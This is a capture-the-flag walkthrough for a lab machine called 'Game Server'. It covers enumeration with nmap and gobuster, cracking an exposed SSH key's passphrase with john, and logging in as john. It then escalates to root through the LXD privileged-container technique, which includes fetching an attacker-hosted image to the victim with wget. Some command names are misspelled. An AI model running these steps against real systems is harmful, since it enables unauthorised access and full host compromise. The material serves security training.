





## 12. Game Server

```
nmap -sC -sV <ip>
```

If we see Index.html page we will see a message with username john

```
gobuster dir -u <URL> -w <wordlist>
```

We found a page called /uploads



We found 3 things in that which are dict1.lst -> dictionary, manifesto -> waste thing and third being an image called meme.jpg

We also found another file called /secret



I found its rsa key so let us login, save name as id_rsa

```
ssh2john id_rsa > file.hash
```

```
john file.hash --wordlist=rockyou.txt
```

We got our passphrase 

```
letmein
```

```
chmod 600 id_rsa
```

```
ssh -i id_rsa john@<IP>
```



Now we are logged in as john

```
find / -name user.txt 2>/dev/null
```

```
cat user.txt
```

##### Privilege Escalation

```
id
```

**LXD** is a tool that makes it easier to manage Linux containers—like lightweight virtual machines—on a Linux system.  It builds on **LXC** (Linux Containers), which creates isolated environments, but adds a powerful, user-friendly layer with a central daemon, a simple command-line interface, and a REST API.

LXD is normally a root process

In our system, we will download alpine for it

```
git clone https://github.com/saghul/lxd-alpine-builder.git
```

```
cd lxd-alphine-builder
```

```
sudo ./build-aplhine
```

Now we will send alphine file in our victim's machine

```
python -m http.server 3030
```

```
wget http://192.168.132.222:3030/lxd-alpine-builder/alpine-v3.23-x86_64-20260225_2113.tar.gz
```

```
lxc image import alpine-v3.23-x86_64-20260225_2113.tar.gz --alias alpine
```

```
lxc image list
```

```
lxc init alpine privesc -c security.privileged=true
```



```
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

```
lxc start privesc
```

```
lxc exec privesc /bin/sh
```



Now we are root

